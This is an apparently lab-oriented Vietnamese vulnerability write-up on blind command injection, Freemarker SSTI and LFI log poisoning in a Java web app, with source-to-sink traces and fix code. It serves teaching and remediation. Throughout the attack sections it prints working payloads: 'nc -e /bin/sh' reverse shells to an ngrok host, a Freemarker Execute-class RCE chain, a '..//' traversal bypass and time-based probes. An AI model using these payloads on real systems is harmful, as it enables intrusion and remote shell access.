| Function nguy hiểm | `ProcessBuilder("/bin/sh", "-c", command)`          | `Runtime.exec(new String[]{"/bin/sh","-c",command})` |
| Input ghép command | `kid` qua command template                          | `qrContent/resolvedContent`                          |
| Output command     | Dùng như key material/log, không trả response       | Không trả stdout; trả QR URL/HTML/JSON               |
| Business guard     | Không có guard trước `kid` sink                     | Có guard cho email/promotionCode business path       |
| PoC phù hợp        | `kid="; nc -e /bin/sh 0.tcp.ap.ngrok.io <port>; #"` | SSTI helper call hoặc Rome deserialization payload   |

***

## 5. Fix guidance đặt cạnh sink

### 5.1. Fix Sink A - JWT `kid`

Không dùng `kid` để dựng shell command. `kid` chỉ được là selector vào key store do server kiểm soát:

```java
// File: src/main/java/org/example/security/JwtUtils.java
String kid = header.getKeyId();
if (!StringUtils.hasText(kid) || !kid.matches("^[A-Za-z0-9._-]+$")) {
    throw new UnsupportedJwtException("Invalid JWT kid");
}

Key verificationKey = verificationKeys.get(kid);
if (verificationKey == null) {
    throw new UnsupportedJwtException("Unknown JWT kid");
}
return verificationKey;
```

Nếu bắt buộc đọc key file, dùng `Path` trong fixed directory và không gọi shell:

```java
// File: src/main/java/org/example/security/JwtUtils.java
Path keyDir = Paths.get("jwt-keys").toAbsolutePath().normalize();
Path keyPath = keyDir.resolve(kid + ".pem").normalize();
if (!keyPath.startsWith(keyDir)) {
    throw new UnsupportedJwtException("Invalid JWT kid path");
}
return parsePublicKey(Files.readString(keyPath, StandardCharsets.US_ASCII));
```

### 5.2. Fix Sink B - QRCodeHelper

Không chạy `qrencode` qua `/bin/sh -c`; truyền argument tách rời:

```java
// File: src/main/java/org/example/util/QRCodeHelper.java
ProcessBuilder processBuilder = new ProcessBuilder(
        "qrencode",
        "-t", "SVG",
        "-o", outputPath.toString(),
        resolvedContent);
processBuilder.redirectErrorStream(true);
Process process = processBuilder.start();
```

Thêm content policy và timeout fail-closed:

```java
// File: src/main/java/org/example/util/QRCodeHelper.java
if (resolvedContent.length() > 256) {
    throw new IllegalArgumentException("QR content is too long");
}
if (!resolvedContent.matches("^[A-Za-z0-9@._,+: -]+$")) {
    throw new IllegalArgumentException("QR content contains unsupported characters");
}
if (!process.waitFor(3, TimeUnit.SECONDS)) {
    process.destroyForcibly();
    throw new IllegalStateException("QR generation timed out");
}
```

Sau đó fix call site Freemarker để UI profile vẫn hiện QR nhưng template không còn tự instantiate helper:

```java
// File: src/main/java/org/example/controller/ProfileViewController.java
String profileEmail = valueOrDefault(user.getEmail());
model.put("email", profileEmail);
model.put("memberQrUrl", new org.example.util.QRCodeHelper().renderQrCode(profileEmail));
```

```java
<#-- File: src/main/resources/templates/themes/light_mode.ftl và dark_mode.ftl -->
<#-- Bỏ:
<#assign memberQr = 'org.example.util.QRCodeHelper'?new()>
<#assign memberQrUrl = memberQr(email)>
-->

```

***

## 6. Tổng kết

Blind Command Injection hiện cần ghi nhận đủ 2 sink:

1. **Sink A - JWT `kid` injection:** `kid` trong JWT header đi vào `kidKeyCommandTemplate`, sau đó chạy bằng `/bin/sh -c`. Đây là Blind Command Injection chính vì có thể tạo side effect ngay trong quá trình token validation.
2. **Sink B - `QRCodeHelper`:** `qrContent` đi vào command `qrencode` rồi chạy bằng `/bin/sh -c`. Sink này vẫn nguy hiểm nhưng hiện được giữ như hidden final sink cho SSTI và Deserialize; các source business như signup/update email và booking `promotionCode` thường đã được bảo vệ.

Kết luận phân loại:

```text
Nếu attacker-controlled input được nối vào command string rồi chạy qua /bin/sh -c,
đánh dấu Command Injection.

Nếu response không trả command output và chỉ quan sát được delay/file/OOB side effect,
đánh dấu Blind Command Injection.
```


# SSTI

***

## 1. Kết luận nhanh cho SSTI

| Thuộc tính                 | Giá trị                                                                                                                           |
| -------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Entry point render         | `GET /api/v1/profile/basic-info`                                                                                                  |
| Entry point ghi selector   | `PUT /api/v1/user` với JSON field `profileTheme`                                                                                  |
| Quyền truy cập             | `ROLE_USER` hoặc `ROLE_ADMIN`                                                                                                     |
| Source selector chính      | `User.profileTheme` persisted trong bảng `USER.PROFILE_THEME`                                                                     |
| Source template content    | File trong `data/custom_themes`, hoặc file/log bị chọn qua LFI                                                                    |
| Sink template chính        | `new Template("filesystem-profile-theme", new StringReader(templateSource), configuration)` rồi `template.process(model, writer)` |
| Object-chain anchor        | `profileTheme` trong Freemarker model là object `org.example.util.ProfileTheme`                                                   |
| Dev-supplied helper        | `'org.example.util.QRCodeHelper'?new()` được template gọi như method                                                              |
| Config làm chain reachable | Freemarker `2.3.29`, `TemplateClassResolver.SAFER_RESOLVER`, `DefaultObjectWrapper`                                               |

> **Nhận định:**  Source điều khiển selector là `profileTheme` được ghi qua `PUT /api/v1/user`, sau đó `GET /api/v1/profile/basic-info` lấy giá trị đã lưu để chọn template. Khi file được chọn chứa Freemarker expression, backend compile nội dung đó bằng `new Template(...)`, từ đó mở hai hướng detect: object-chain qua `profileTheme` object và dev-supplied helper qua `QRCodeHelper?new()`.

***

## 2. Bản đồ flow tổng quan

```mermaid
flowchart TD
    subgraph Source["Source"]
        A1["PUT /api/v1/user"]
        A2["JSON field: profileTheme"]
        A3["USER.PROFILE_THEME"]
    end

    subgraph Render["Profile render"]
        B1["GET /api/v1/profile/basic-info"]
        B2["ProfileViewController.resolveThemeName(user)"]
        B3["buildProfileModel(user)"]
        B4["model.profileTheme = new ProfileTheme(...)"]
    end

    subgraph Loader["CustomThemeLoader"]
        C1["loadProfileTheme(themeName, model)"]
        C2["configuration.getTemplate('themes/' + themeName)"]
        C3["Fallback: customThemeRoot.resolve(themeName)"]
        C4["Files.readString(resolvedThemePath)"]
        C5["new Template(...templateSource...)"]
        C6["template.process(model, writer)"]
    end

    subgraph SSTI["SSTI primitives"]
        D1["Object chain: profileTheme.class.protectionDomain.classLoader"]
        D2["Dev-supplied helper: QRCodeHelper?new()"]
    end

    subgraph Impact["Impact"]
        E1["Read/render template output"]
        E2["Reach QRCodeHelper command sink"]
        E3["Optional object-chain execution primitive"]
    end

    A1 --> A2 --> A3 --> B1
    B1 --> B2 --> C1
    B1 --> B3 --> B4 --> C6
    C1 --> C2
    C1 --> C3 --> C4 --> C5 --> C6
    C6 --> D1 --> E3
    C6 --> D2 --> E2
    C6 --> E1
```

***

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

Hướng sink -> source bắt đầu từ việc fuzz/tìm dangerous function của template engine, không bắt đầu từ endpoint. Với SSTI, các handle quan trọng là nơi **compile template từ string/file** và nơi **mở rộng quyền truy cập Java object**.

| Nhóm dangerous function/config | Pattern fuzz trong code                            | Candidate tìm thấy                                                           | Kết luận                                             |
| ------------------------------ | -------------------------------------------------- | ---------------------------------------------------------------------------- | ---------------------------------------------------- |
| Runtime template compile       | `new Template`, `StringReader`, `template.process` | `CustomThemeLoader.renderTemplateSource(...)`                                | Sink SSTI chính                                      |
| Template file load             | `getTemplate`, `Files.readString`, `Path.resolve`  | `loadClasspathTheme(...)`, `loadFilesystemTheme(...)`                        | Selector `themeName` quyết định template được render |
| Freemarker class instantiation | `setNewBuiltinClassResolver`, `?new()`             | `SAFER_RESOLVER`, default theme dùng `'org.example.util.QRCodeHelper'?new()` | Dev-supplied helper reachable                        |
| Java object exposure           | `DefaultObjectWrapper`, `model.put` object         | `model.put("profileTheme", new ProfileTheme(...))`                           | Object-chain anchor reachable                        |
| Render exposure                | `produces = TEXT_HTML`, `dangerouslySetInnerHTML`  | `ProfileViewController.basicInfo(...)`, `Profile.jsx`                        | Output HTML được frontend render lại                 |

### 3.2. Sink template compile

Sink chính nằm ở `CustomThemeLoader.renderTemplateSource(...)`:

```java
// src/main/java/org/example/util/CustomThemeLoader.java
private String renderTemplateSource(String templateSource, Map<String, Object> model)
        throws IOException, TemplateException {
    Template template = new Template("filesystem-profile-theme", new StringReader(templateSource), configuration);
    StringWriter writer = new StringWriter();
    template.process(model, writer);
    return writer.toString();
}
```

Điểm nguy hiểm:

| Dòng xử lý                             | Ý nghĩa bảo mật                                        |
| -------------------------------------- | ------------------------------------------------------ |
| `templateSource` là string đọc từ file | Nội dung ngoài source code có thể trở thành template   |
| `new Template(...StringReader...)`     | Freemarker parse expression trong string               |
| `template.process(model, writer)`      | Expression được thực thi với model do backend cung cấp |
| Response là `TEXT_HTML`                | Output được trả cho frontend và render bằng HTML       |

### 3.3. Dev-supplied helper: `QRCodeHelper?new()`

Freemarker config đang dùng `SAFER_RESOLVER`:

```java
// src/main/java/org/example/config/FreeMarkerSandboxConfig.java
configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

`SAFER_RESOLVER` vẫn cho template khởi tạo một số class hợp lệ trong application. WebLab có một helper nội bộ implement `TemplateMethodModelEx`:

```java
// src/main/java/org/example/util/QRCodeHelper.java
public class QRCodeHelper implements TemplateMethodModelEx {
    @Override
    public Object exec(List arguments) throws TemplateModelException {
        if (arguments.isEmpty()) {
            return "";
        }

        return renderQrCode(toPlainString((TemplateModel) arguments.get(0)));
    }
}
```

Template mặc định đã chứng minh helper này được xây dựng cho Freemarker:

```ftl
<#assign memberQr = 'org.example.util.QRCodeHelper'?new()>
<#assign memberQrUrl = memberQr(email)>
```

Khi template content bị attacker kiểm soát, helper có thể được gọi với argument do attacker chọn:

```ftl
<#assign qr = 'org.example.util.QRCodeHelper'?new()>
${qr('; nc -e /bin/sh 0.tcp.ap.ngrok.io <port>; #')}
```

Luồng detect dev-supplied helper:

```mermaid
sequenceDiagram
    actor Attacker
    participant UserAPI as PUT /api/v1/user
    participant Profile as GET /api/v1/profile/basic-info
    participant Loader as CustomThemeLoader
    participant FTL as Freemarker
    participant QR as QRCodeHelper
    participant Shell as /bin/sh -c

    Attacker->>UserAPI: Persist profileTheme selector
    Attacker->>Profile: Trigger profile render
    Profile->>Loader: loadProfileTheme(stored profileTheme, model)
    Loader->>FTL: new Template(...templateSource...)
    FTL->>QR: 'org.example.util.QRCodeHelper'?new()
    FTL->>QR: qr(attacker-controlled argument)
    QR->>Shell: qrencode command built from argument
    Shell-->>QR: Marker / delay / OOB side effect
```

Kết luận riêng cho nhánh dev-supplied:

| Điều kiện | Có trong code? | Ghi chú |
|---|---:|---|
| Template engine cho `?new()` | Có | `TemplateClassResolver.SAFER_RESOLVER` |
| Helper application implement `TemplateMethodModelEx` | Có | `QRCodeHelper` |
| Helper có side effect nguy hiểm | Có | Gọi `Runtime.exec(["/bin/sh","-c",command])` ở QR sink |
| Template content controllable | Có khi chọn được file/custom/log content | Đây là điểm nối với LFI hoặc custom theme content |

### 3.4. Object chain: `profileTheme` object anchor

Profile model cố ý không expose nguyên `User`, nhưng vẫn expose một domain object nhỏ:

```java
// src/main/java/org/example/controller/ProfileViewController.java
model.put("profileTheme", new ProfileTheme(resolveThemeName(user)));
```

`ProfileTheme` là Java object có getter:

```java
// src/main/java/org/example/util/ProfileTheme.java
public class ProfileTheme {
    private final String name;
    private final String templatePath;
    private final String displayName;
    private final boolean darkMode;

    public String getName() { return name; }
    public String getTemplatePath() { return templatePath; }
    public String getDisplayName() { return displayName; }
    public boolean isDarkMode() { return darkMode; }
}
```

Freemarker config dùng `DefaultObjectWrapper`:

```java
// src/main/java/org/example/config/FreeMarkerSandboxConfig.java
configuration.setObjectWrapper(new DefaultObjectWrapper(Configuration.VERSION_2_3_29));
```

Vì vậy object-chain anchor có dạng:

```ftl
${profileTheme.name}
${profileTheme.templatePath}
${profileTheme.class.protectionDomain.classLoader}
```

Object-chain payload shape cụ thể dựa trên [CVE-2021-25770](https://www.synacktiv.com/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack) có thể hoạt động trên phiên bản Freemarker < 2.3.30:

```ftl
<#assign classLoader = profileTheme.class.protectionDomain.classLoader>
<#assign objectWrapperClass = classLoader.loadClass('freemarker.template.ObjectWrapper')>
<#assign defaultWrapper = objectWrapperClass.getField('DEFAULT_WRAPPER').get(null)>
<#assign executeClass = classLoader.loadClass('freemarker.template.utility.Execute')>
${defaultWrapper.newInstance(executeClass, null)('nc -e /bin/sh 0.tcp.ap.ngrok.io <port>')}
```

Luồng detect object-chain:

```mermaid
flowchart TD
    A["Freemarker template content"]
    B["model.profileTheme"]
    C["ProfileTheme Java object"]
    D["DefaultObjectWrapper bean-style access"]
    E["profileTheme.class"]
    F["protectionDomain.classLoader"]
    G["loadClass('freemarker.template.utility.Execute')"]
    H["defaultWrapper.newInstance(...)"]
    I["Execute('id') or time-based command"]

    A --> B --> C --> D --> E --> F --> G --> H --> I
```

Kết luận riêng cho nhánh object-chain:

| Điều kiện                                 | Có trong code? | Ghi chú                          |
| ----------------------------------------- | -------------: | -------------------------------- |
| Model expose domain object                |             Có | `ProfileTheme`                   |
| Wrapper cho phép bean-style object access |             Có | `DefaultObjectWrapper`           |
| Version cố định phù hợp với object chain  |             Có | `freemarker.version = 2.3.29`    |
| Template content được thực thi            |             Có | `new Template(...).process(...)` |

### 3.5. Truy ngược về source `profileTheme`

Sau khi xác định sink là `new Template(...).process(...)`, trace ngược `themeName`:

```java
// src/main/java/org/example/controller/ProfileViewController.java
public String basicInfo(Authentication authentication) {
    User user = resolveAuthenticatedUser(authentication);

    String themeName = resolveThemeName(user);
    return customThemeLoader.loadProfileTheme(themeName, buildProfileModel(user));
}
```

`resolveThemeName(user)` chỉ lấy persisted value:

```java
private String resolveThemeName(User user) {
    if (user == null || !StringUtils.hasText(user.getProfileTheme())) {
        return DEFAULT_THEME;
    }
    return user.getProfileTheme().trim();
}
```

Source ghi persisted value:

```java
// src/main/java/org/example/controller/UserController.java
@PutMapping
public ResponseEntity<?> editUser(@RequestBody User user, Authentication authentication) {
    if (user.getProfileTheme() == null) {
        user.setProfileTheme(existingUser.getProfileTheme());
    }
    userService.save(user);
}
```

Trace sink -> source:

```mermaid
flowchart RL
    S1["new Template(...templateSource...)"]
    S2["template.process(model, writer)"]
    S3["templateSource = Files.readString(resolvedThemePath)"]
    S4["resolvedThemePath = customThemeRoot.resolve(themeName)"]
    S5["themeName = resolveThemeName(user)"]
    S6["user.profileTheme"]
    S7["PUT /api/v1/user JSON profileTheme"]

    S1 --> S2
    S1 --> S3 --> S4 --> S5 --> S6 --> S7
```

***

## 4. Source -> Sink

### 4.1. Stored `profileTheme` source -> Freemarker sink

```java
// src/main/java/org/example/controller/UserController.java
@PutMapping
public ResponseEntity<?> editUser(@RequestBody User user, Authentication authentication) {
    if (user.getProfileTheme() == null) {
        user.setProfileTheme(existingUser.getProfileTheme());
    }
    userService.save(user);
}
```

Sau khi `profileTheme` được lưu qua `PUT /api/v1/user` , nó sẽ được truyền vào `loadProfileTheme()` trong quá trình render profile:

```java
// src/main/java/org/example/controller/ProfileViewController.java
public String basicInfo(Authentication authentication) {
    User user = resolveAuthenticatedUser(authentication);

    String themeName = resolveThemeName(user);
    return customThemeLoader.loadProfileTheme(themeName, buildProfileModel(user));
}
```

`loadProfileTheme()` xử lý file profile theme đầu vào qua 2 hàm lấy đường dẫn file `loadClasspathTheme()` và `loadFilesystemTheme()`: 

```java
// File: src/main/java/org/example/util/CustomThemeLoader.java
public String loadProfileTheme(String themeName, Map<String, Object> model) {
        String resolvedThemeName;
        try {
            resolvedThemeName = resolveThemeName(themeName);
        } catch (Exception e) {
            return errorMessage("Error resolving profile theme", e);
        }

        try {
            return loadClasspathTheme(resolvedThemeName, model);
        } catch (TemplateNotFoundException | MalformedTemplateNameException e) {
            return loadFilesystemTheme(resolvedThemeName, model);
        } catch (Exception e) {
            return errorMessage("Error rendering profile theme", e);
        }
    }

    private String loadClasspathTheme(String themeName, Map<String, Object> model)
            throws IOException, TemplateException {
        Template template = configuration.getTemplate("themes/" + themeName);
        StringWriter writer = new StringWriter();
        template.process(model, writer);
        return writer.toString();
    }

    private String loadFilesystemTheme(String themeName, Map<String, Object> model) {
        try {
            Path resolvedThemePath = customThemeRoot.resolve(themeName);
            String templateSource = Files.readString(resolvedThemePath, StandardCharsets.UTF_8);
            return renderTemplateSource(templateSource, model);
        } catch (Exception e) {
            return errorMessage("Error loading custom theme", e);
        }
    }
```

Cuối cùng dẫn tới sink `renderTemplateSource()`:

```java
private String renderTemplateSource(String templateSource, Map<String, Object> model)
            throws IOException, TemplateException {
        Template template = new Template("filesystem-profile-theme", new StringReader(templateSource), configuration);
        StringWriter writer = new StringWriter();
        template.process(model, writer);
        return writer.toString();
    }
```

```mermaid
sequenceDiagram
    actor Attacker
    participant UserAPI as PUT /api/v1/user
    participant DB as USER.PROFILE_THEME
    participant Profile as GET /api/v1/profile/basic-info
    participant Loader as CustomThemeLoader
    participant FS as Filesystem
    participant FTL as Freemarker runtime
    participant Browser as React Profile.jsx

    Attacker->>UserAPI: JSON body includes profileTheme
    UserAPI->>DB: userService.save(user)
    Attacker->>Profile: Render profile card
    Profile->>DB: Load authenticated user
    Profile->>Loader: loadProfileTheme(user.profileTheme, model)
    Loader->>FS: Files.readString(resolvedThemePath)
    Loader->>FTL: new Template(...).process(model)
    FTL-->>Profile: Rendered HTML
    Profile-->>Browser: text/html response
    Browser->>Browser: dangerouslySetInnerHTML
```

Kết luận:

| Step                                 | Rủi ro | Ghi chú                                                                    |
| ------------------------------------ | ------ | -------------------------------------------------------------------------- |
| `PUT /api/v1/user`                   | Có     | Backend nhận nguyên `User` JSON, chỉ giữ lại existing theme khi field null |
| `USER.PROFILE_THEME`                 | Có     | Stored selector khiến chain persistent                                     |
| `resolveThemeName(user)`             | Có     | Không allowlist `light_mode.ftl`, `dark_mode.ftl`                          |
| `new Template(...templateSource...)` | Có     | File content trở thành executable Freemarker template                      |
| `customThemeRoot.resolve(themeName)` | Có     | Không `normalize` path mà `resolve` trực tiếp `themeName`                  |

### 4.2. Source template content -> dev-supplied helper sink

Nếu file được chọn có nội dung Freemarker, expression được evaluate. Với helper dev-supplied:

```ftl
<#assign qr = 'org.example.util.QRCodeHelper'?new()>
${qr('demo; sleep 5; #')}
```

Luồng đến hidden command sink:

```mermaid
flowchart TD
    A["Template content contains QRCodeHelper?new()"]
    B["SAFER_RESOLVER allows application TemplateModel class"]
    C["QRCodeHelper.exec(arguments)"]
    D["renderQrCode(qrContent)"]
    E["command = 'qrencode ... ' + resolvedContent"]
    F["Runtime.exec(['/bin/sh','-c',command])"]
    G["Blind signal: delay/file/OOB"]

    A --> B --> C --> D --> E --> F --> G
```

Detect signal:

| Payload intent | Signal kỳ vọng |
|---|---|
| `${7 * 7}` trong template content | Response HTML có output `49` |
| `QRCodeHelper?new()` với `sleep 5` | Response render chậm |
| `QRCodeHelper?new()` với marker file | File marker xuất hiện trên host/container |
| `QRCodeHelper?new()` với OOB | Có DNS/HTTP callback |

### 4.3. Source template content -> object-chain sink

Với object-chain, payload không cần `QRCodeHelper`. Nó dùng object `profileTheme` có sẵn trong model:

```ftl
<#assign cl = profileTheme.class.protectionDomain.classLoader>
<#assign owc = cl.loadClass('freemarker.template.ObjectWrapper')>
<#assign dw = owc.getField('DEFAULT_WRAPPER').get(null)>
<#assign ec = cl.loadClass('freemarker.template.utility.Execute')>
${dw.newInstance(ec, null)('nc -e /bin/sh 0.tcp.ap.ngrok.io <port>')}
```

Luồng từ source đến object-chain:

```mermaid
sequenceDiagram
    actor Attacker
    participant Template as Controlled template content
    participant FTL as Freemarker runtime
    participant Model as Profile model
    participant ThemeObj as ProfileTheme object
    participant CL as ClassLoader
    participant Exec as freemarker.template.utility.Execute

    Template->>FTL: profileTheme.class...
    FTL->>Model: Resolve profileTheme
    Model-->>FTL: ProfileTheme object
    FTL->>ThemeObj: class.protectionDomain.classLoader
    ThemeObj-->>CL: Application ClassLoader
    FTL->>CL: loadClass('freemarker.template.utility.Execute')
    CL-->>Exec: Execute class
    FTL->>Exec: newInstance(...)(command)
```

### 4.4. Blackbox detect và khai thác SSTI qua log poisoning

Khi khai thác blackbox, attacker không cần biết source code ngay từ đầu. Điểm quan trọng là tách thành các probe nhỏ, vì response lỗi Freemarker cũng là oracle tốt: nó cho biết biến nào tồn tại, bước nào `null/missing`, và payload chết ở dot nào.

**Lưu ý payload trong access log:** không bọc toàn bộ payload bằng dấu `"` và ưu tiên dùng single quote trong Freemarker string literal. Nếu dùng double quote, access log/JSON/client có thể biến payload thành `\"`, dẫn tới lỗi parse kiểu:

```text
Lexical error: encountered "\"" after "\"
```

#### 4.4.1. Detect LFI trước, chưa cần SSTI

Đưa marker vô hại vào vùng được log, ví dụ `User-Agent`:

```text
KTV-LFI-MARKER-20260714
```

Sau đó persist `profileTheme` trỏ tới access log qua request update profile:

```json
{
  "profileTheme": "..//..//logs/access.log"
}
```

Trigger render:

```text
GET /api/v1/profile/basic-info
```

Nếu response HTML chứa `KTV-LFI-MARKER-20260714`, đã chứng minh được:

```text
log poisoning source -> access.log -> profileTheme traversal -> Files.readString(...)
```

#### 4.4.2. Detect SSTI bằng arithmetic marker

Sau khi LFI đã đọc được log, thay marker bằng Freemarker expression:

```ftl
SSTI-START-${7*7}-SSTI-END
```

Kỳ vọng response chứa:

```text
SSTI-START-49-SSTI-END
```

Đây là bằng chứng nội dung log không chỉ bị đọc, mà còn bị compile/evaluate bởi Freemarker.

#### 4.4.3. Liệt kê biến được expose trong model

Payload liệt kê root variables:

```ftl
MODEL-KEYS-${.data_model?keys?join(',')}-END
```

Kỳ vọng thấy các key profile:

```text
name,email,idNumber,birthday,phoneNum,gender,address,profileTheme
```

Nếu `.data_model?keys` bị noisy hoặc không render rõ trong log, probe từng biến:

```ftl
PROBE-name-${name??}-email-${email??}-profileTheme-${profileTheme??}-user-${user??}-product-${product??}-END
```

#### 4.4.4. Fingerprint object anchor

Với setup hiện tại, `name`, `email`, `address` là plain string. Anchor đáng khai thác là `profileTheme`, vì model bind nó thành `org.example.util.ProfileTheme`.

Probe class:

```ftl
ANCHOR-${profileTheme.class.name}-END
```

Kỳ vọng:

```text
ANCHOR-org.example.util.ProfileTheme-END
```

Probe property business:

```ftl
THEME-${profileTheme.name}-${profileTheme.templatePath}-${profileTheme.displayName}-${profileTheme.darkMode?c}-END
```

Probe classloader:

```ftl
CL-${profileTheme.class.protectionDomain.classLoader}-END
```

Nếu probe bằng `email.class...` bị null/missing, đó là expected behavior vì `email` là `java.lang.String`/simple value, không phải app object.

#### 4.4.5. Khai thác object-chain bằng single quote

Payload object-chain dùng `ProfileTheme` làm anchor và tránh double quote:

```java
<#assign classloader=profileTheme.class.protectionDomain.classLoader><#assign owc=classloader.loadClass('freemarker.template.ObjectWrapper')><#assign dwf=owc.getField('DEFAULT_WRAPPER').get(null)><#assign ec=classloader.loadClass('freemarker.template.utility.Execute')>${dwf.newInstance(ec,null)('id')}
```

Nếu cần OOB command trong lab:

```java
<#assign classloader=profileTheme.class.protectionDomain.classLoader><#assign owc=classloader.loadClass('freemarker.template.ObjectWrapper')><#assign dwf=owc.getField('DEFAULT_WRAPPER').get(null)><#assign ec=classloader.loadClass('freemarker.template.utility.Execute')>${dwf.newInstance(ec,null)('nc -e /bin/sh 0.tcp.ap.ngrok.io <port>')}
```

Khi command output không hiển thị rõ trong response, dùng marker side effect hoặc OOB listener thay vì chỉ nhìn HTML.

#### 4.4.6. Fallback qua dev-supplied helper

Nếu object-chain bị chặn nhưng `?new()` còn instantiate được application `TemplateModel`, có thể detect helper:

```java
<#attempt><#assign qr='org.example.util.QRCodeHelper'?new()>QRCLASS-OK<#recover>QRCLASS-ERR-${.error?html}</#attempt>
```

Nếu thấy `QRCLASS-OK`, chứng minh được:

```
Freemarker ?new()
-> org.example.util.QRCodeHelper tồn tại
-> SAFER_RESOLVER cho instantiate class này
```

Thử gọi helper an toàn:

```java
<#attempt><#assign qr='org.example.util.QRCodeHelper'?new()>QRCALL-${qr('probe@example.com')?has_content?c}-END<#recover>QRCALL-ERR-${.error?html}</#attempt>
```

Signal tốt:

```
QRCALL-true-END
```

Thử payload time-based command injection:

```java
<#assign qr='org.example.util.QRCodeHelper'?new()>${qr('blackbox; sleep 5; #')}
```

Signal kỳ vọng là response render chậm hoặc QR fallback side effect. Nhánh này đi vào sink `QRCodeHelper.renderQrCode(...)`, không cần `profileTheme.class...`.


***

## 5. Fix guidance đặt cạnh sink

### 5.1. Fix selector `profileTheme`

Không nghe theo arbitrary filename/path từ JSON. Chỉ nhận theme id trong allowlist:

```java
// File: src/main/java/org/example/controller/UserController.java
java.util.Set<String> allowedProfileThemes = java.util.Set.of(
        "light_mode.ftl", "dark_mode.ftl");

String requestedTheme = user.getProfileTheme();
if (!org.springframework.util.StringUtils.hasText(requestedTheme)) {
    user.setProfileTheme(existingUser.getProfileTheme());
} else if (!allowedProfileThemes.contains(requestedTheme.trim())) {
    return ResponseEntity.badRequest().body("Invalid profile theme");
} else {
    user.setProfileTheme(requestedTheme.trim());
}
```

### 5.2. Fix template loading

Không compile arbitrary filesystem content làm Freemarker template:

```java
// File: src/main/java/org/example/util/CustomThemeLoader.java
java.util.Map<String, String> themeAllowlist = java.util.Map.of(
        "light_mode.ftl", "themes/light_mode.ftl",
        "dark_mode.ftl", "themes/dark_mode.ftl");

String templatePath = themeAllowlist.getOrDefault(themeName, "themes/light_mode.ftl");
Template template = configuration.getTemplate(templatePath);
```

Nếu vẫn cần custom theme, phải normalize path và chặn thoát root:

```java
// File: src/main/java/org/example/util/CustomThemeLoader.java
Path root = customThemeRoot.toRealPath();
Path candidate = root.resolve(themeName).normalize();
if (!candidate.startsWith(root)
        || candidate.getFileName() == null
        || !candidate.getFileName().toString().endsWith(".ftl")) {
    throw new IllegalArgumentException("Invalid theme path");
}
Path resolvedThemePath = candidate.toRealPath();
if (!resolvedThemePath.startsWith(root)) {
    throw new IllegalArgumentException("Invalid theme path");
}
```

### 5.3. Fix Freemarker sandbox

Không cho template tự instantiate arbitrary class:

```java
// File: src/main/java/org/example/config/FreeMarkerSandboxConfig.java
configuration.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);
configuration.setObjectWrapper(
        new freemarker.template.SimpleObjectWrapper(Configuration.VERSION_2_3_29));
```

Không expose helper bằng `?new()` nữa. Nếu profile vẫn cần QR, tạo URL QR ở Java-side trước khi render template:

```java
// File: src/main/java/org/example/controller/ProfileViewController.java
String profileEmail = valueOrDefault(user.getEmail());
String selectedTheme = user == null || user.getProfileTheme() == null
        ? DEFAULT_THEME
        : user.getProfileTheme().trim();

model.put("name", valueOrDefault(user.getName()));
model.put("email", profileEmail);
model.put("idNumber", valueOrDefault(user.getIdNumber()));
model.put("birthday", formatDate(user.getBirthday()));
model.put("phoneNum", valueOrDefault(user.getPhoneNum()));
model.put("gender", formatGender(user.getGender()));
model.put("address", valueOrDefault(user.getAddress()));
model.put("profileTheme", "dark_mode.ftl".equals(selectedTheme) ? "dark_mode.ftl" : DEFAULT_THEME);
model.put("memberQrUrl", new org.example.util.QRCodeHelper().renderQrCode(profileEmail));
```

Trong `light_mode.ftl` và `dark_mode.ftl`, bỏ hai dòng tự instantiate helper:

```ftl
<#-- REMOVE -->
<#assign memberQr = 'org.example.util.QRCodeHelper'?new()>
<#assign memberQrUrl = memberQr(email)>
```

Template chỉ còn render link tĩnh đã được controller đưa vào model:

```ftl

```

Như vậy fix sandbox không làm mất QR: `QRCodeHelper` vẫn có thể chạy ở Java-side với input đã kiểm soát, nhưng Freemarker template không còn quyền tự gọi class/helper tuỳ ý.

### 5.4. Fix object-chain anchor

Không expose Java object vào model khi chỉ cần text:

```java
// File: src/main/java/org/example/controller/ProfileViewController.java
model.put("profileTheme", "dark_mode.ftl".equals(selectedTheme) ? "dark_mode.ftl" : DEFAULT_THEME);
```

***

## 6. Tổng kết SSTI

SSTI detect được trình bày riêng theo hai hướng:

1. **Dev-supplied helper:** `SAFER_RESOLVER` + `QRCodeHelper implements TemplateMethodModelEx` cho phép template gọi `'org.example.util.QRCodeHelper'?new()`, rồi đưa argument vào hidden command sink.
2. **Object chain:** `DefaultObjectWrapper` + `model.profileTheme = new ProfileTheme(...)` cho phép template đi từ `profileTheme.class` đến `classLoader`, rồi load các utility class như `freemarker.template.utility.Execute`.


```text
PUT /api/v1/user JSON profileTheme
-> USER.PROFILE_THEME
-> GET /api/v1/profile/basic-info
-> CustomThemeLoader
-> Freemarker sink
```


# LFI Log Poisoning

***

## 1. Kết luận nhanh cho LFI Log Poisoning

| Thuộc tính               | Giá trị                                                                       |
| ------------------------ | ----------------------------------------------------------------------------- |
| Entry point poison log   | Bất kỳ request HTTP được Tomcat access log ghi lại                            |
| Entry point chọn file    | `PUT /api/v1/user` với JSON field `profileTheme`                              |
| Entry point trigger read | `GET /api/v1/profile/basic-info`                                              |
| Source log content       | Request line, Referer, User-Agent trong Tomcat `combined` access log          |
| Source file selector     | Tuỳ theo `User.profileTheme`                                                  |
| LFI sink                 | `Files.readString(resolvedThemePath, StandardCharsets.UTF_8)`                 |
| Log file mặc định        | `logs/access.log`                                                             |
| Bypass chính             | Regex chỉ bắt `../`, nhưng bỏ sót `..//`                                      |
| Kết hợp với SSTI         | Log content sau khi đọc tiếp tục bị `new Template(...).process(...)` evaluate |

> **Nhận định:** LFI Log Poisoning cần tách thành hai detect riêng. Detect LFI trước bằng cách ghi marker vào access log rồi ép `profileTheme` trỏ tới `..//..//logs/access.log`. Nếu marker xuất hiện trong response profile HTML, đã chứng minh đọc file log thành công. Sau đó mới nâng cấp chain bằng Freemarker payload trong log để biến LFI thành SSTI.

***

## 2. Bản đồ flow tổng quan

```mermaid
flowchart TD
    subgraph Poison["Log poisoning"]
        A1["HTTP request with marker/payload"]
        A2["Tomcat access log pattern: combined"]
        A3["logs/access.log"]
    end

    subgraph Selector["Persisted file selector"]
        B1["PUT /api/v1/user"]
        B2["profileTheme = '..//..//logs/access.log'"]
        B3["USER.PROFILE_THEME"]
    end

